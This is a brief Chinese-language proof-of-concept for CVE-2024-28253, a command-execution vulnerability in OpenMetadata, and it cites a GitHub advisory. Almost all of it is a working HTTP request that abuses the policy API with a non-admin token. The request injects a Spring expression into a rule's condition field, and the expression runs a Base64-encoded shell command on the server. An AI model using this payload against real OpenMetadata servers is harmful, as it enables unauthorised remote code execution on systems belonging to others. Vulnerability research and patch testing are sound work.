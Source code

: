 ## OpenMetadata命令执行漏洞(CVE-2024-28253)


## poc
```
PUT /api/v1/policies HTTP/1.1
Host: localhost:8585
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
Authorization: Bearer <non-admin JWT>
accept: application/json
Connection: close
Content-Type: application/json
Content-Length: 367

{"name":"TeamOnlyPolicy","rules":[{"name":"TeamOnlyPolicy-Rule","description":"Deny all the operations on all the resources for all outside the team hierarchy..","effect":"deny","operations":["All"],"resources":["All"],"condition":"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(T(java.util.Base64).getDecoder().decode('dG91Y2ggL3RtcC9wd25lZA==')))"}]}
```

## 漏洞来源
- https://github.com/advisories/GHSA-7vf4-x5m2-r6gr
